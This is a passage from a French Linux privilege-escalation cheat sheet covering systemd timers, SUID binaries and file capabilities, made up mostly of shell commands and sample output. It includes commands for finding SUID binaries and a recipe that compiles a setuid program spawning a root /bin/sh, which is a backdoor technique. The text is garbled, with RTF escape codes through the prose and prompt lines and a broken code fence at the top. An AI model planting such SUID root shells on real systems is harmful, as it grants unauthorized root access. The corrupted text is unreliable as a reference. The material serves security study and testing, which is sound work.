 ```powershell\
\
## Systemd timers\
\
```powershell\
systemctl list-timers --all\
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES\
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service\
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service\
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service\
\
3 timers listed.\
```\
\
## SUID\
\
SUID/Setuid veut dire "set user ID upon execution" (en fran\'e7ais d\'e9finir l\'92ID utilisateur lors de l\'92ex\'e9cution), c\'92est activ\'e9 par d\'e9faut dans toutes les distribs Linux. Si un fichier avec ce bit est lanc\'e9, l\'92uid sera chang\'e9 par celui de son possesseur. Si son possesseur est `root`, l\'92uid sera chang\'e9 en `root` m\uc0\u234 me s\'92il a \'e9t\'e9 ex\'e9cut\'e9 depuis l\'92utilisateur `bob`. Le bit SUID est repr\'e9sent\'e9 avec un `s`.\
\
```powershell\

\f1 \'a8\'71\'a9\'a4
\f0 swissky@lab ~  \

\f1 \'a8\'74\'a9\'a4
\f0 $ ls /usr/bin/sudo -alh                  \
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo\
```\
\
### Trouver les binaires SUID\
\
```bash\
find / -perm -4000 -type f -exec ls -la \{\} 2>/dev/null \\;\
find / -uid 0 -perm -4000 -type f 2>/dev/null\
```\
\
### Cr\'e9er un binaire SUID\
\
```bash\
print 'int main(void)\{\\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n\}' > /tmp/suid.c   \
gcc -o /tmp/suid /tmp/suid.c  \
sudo chmod +x /tmp/suid # execute right\
sudo chmod +s /tmp/suid # setuid bit\
```\
\
\
## Capacit\'e9s\
\
### Lister les capacit\'e9s des binaires\
\
```bash\

\f1 \'a8\'71\'a9\'a4
\f0 swissky@lab ~  \

\f1 \'a8\'74\'a9\'a4
\f0 $ /usr/bin/getcap -r  /usr/bin\
/usr/bin/fping                = cap_net_raw+ep\
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip\
```
